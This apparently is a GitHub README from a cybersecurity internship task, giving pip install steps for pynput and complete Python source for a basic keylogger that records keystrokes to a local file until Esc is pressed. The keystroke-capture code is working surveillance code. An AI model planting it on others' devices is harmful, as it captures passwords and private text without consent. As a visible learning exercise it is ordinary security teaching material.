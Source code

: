 # INSTALL REQUIRED PACKAGE:

If you haven't installed pynput, you'll need to install it using pip:

<img width="552" alt="Screenshot 2024-06-23 at 11 50 09 AM" src="https://github.com/VigneshwaranElakiya/PRODIGY_CS_04/assets/169158514/14d1c319-a0a9-46a3-80b0-f845ac413b2a">

# SOURCE CODE:
    
    from pynput.keyboard import Key, Listener

    log_file = "keylog.txt"

    def on_press(key):
        with open(log_file, "a") as log:
          try:
              log.write(f"{key.char}")
          except AttributeError:
              if key == Key.space:
                  log.write(" ")
              elif key == Key.enter:
                  log.write("\n")
              elif key == Key.tab:
                  log.write("\t")
              else:
                  log.write(f" [{key}] ")

    def on_release(key):
        if key == Key.esc:
            return False

    with Listener(on_press=on_press, on_release=on_release) as listener:
        print("Keylogger started. Press 'Esc' to stop.")
        listener.join()
